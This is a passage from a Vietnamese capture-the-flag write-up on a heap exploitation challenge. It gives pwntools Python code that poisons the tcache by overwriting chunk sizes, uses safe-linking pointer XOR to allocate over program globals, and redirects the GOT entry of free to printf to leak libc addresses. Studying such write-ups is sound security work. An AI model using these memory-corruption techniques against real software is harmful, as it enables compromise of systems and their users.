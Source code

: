 ```python
free(4) #tcache 0x40 index 1

edit(1,b"A"*0x30)# over write size of chunk2 to 0x41
free(2)# chunk2 sẽ vô tcache 0x40 
#* fake size chunk 
payload=flat(
	1,1, # chunk2 
	0,0x41 # chunk3 size field
	)

add(2,payload) # lấy chunk2 giờ có size 0x40 ra và ta có thể sử dụng chunk2 để ghi đè chunk3 
free(3) # free chunk 3 vô tcahe bin 0x40 
```
# BƯỚC 2 leak LIBC

Sau khi đã free chunk4 và chunk3 thì 2 chunk này sẽ ở trong tcahe bin 0x40:
```java
tcahe bin 0x40: chunk3 <== chunk4
```

giờ ta sẽ edit chunk3 và làm cho chunk4 chỉ đển địa chỉ của thằng secret_msg và chỉnh nó về 0 để co thể sử dụng option 1337
.Sau đó ta sẽ overwrite GOT của free thành printf.plt để khi ta free một chunk thì nó sẽ in ra cho ta
```python
payload=flat(
	0,0,
	0,0x41,
	p64((heap+0x3d70)>>12^exe.sym['secret_msg'])
	)
edit(2,payload)
add(3,b"A"*32) # take chunk3 out
chunk3=heap+0x3d70
chunk2=heap+0x3d50
add(10,flat(0,0,0x30,chunk3))# chunk10 sẽ chứa địa chỉ của secret_msg
#*leak libc
add(4,b"A"*32)
free(4)# tcahe 0x41 index 1
free(3)
payload=flat(
	0,0,
	0,0x41,
	p64((heap+0x3d70)>>12^exe.sym['books'])
	)
edit(2,payload)
add(3,b"A"*32) # take chunk3 out
add(9,flat(0x30,exe.got['printf'],0x30,chunk2)) # chunk 9 sẽ chỉ đến chính địa chỉ của books và ta sẽ over write chunk1 thành got của printf để leak libc
```
Để ý rằng ngay sau secret_msg là địa chỉ của author_signature và sau khi ta ghi nội dung của chunk9 trỏ tới thằng books thì book[1]=exe.got['printf'],
book[2]=chunk2,và book[3]=author_signature nên ta sẽ overwrite thằng author_signature thành chunk3 luôn .
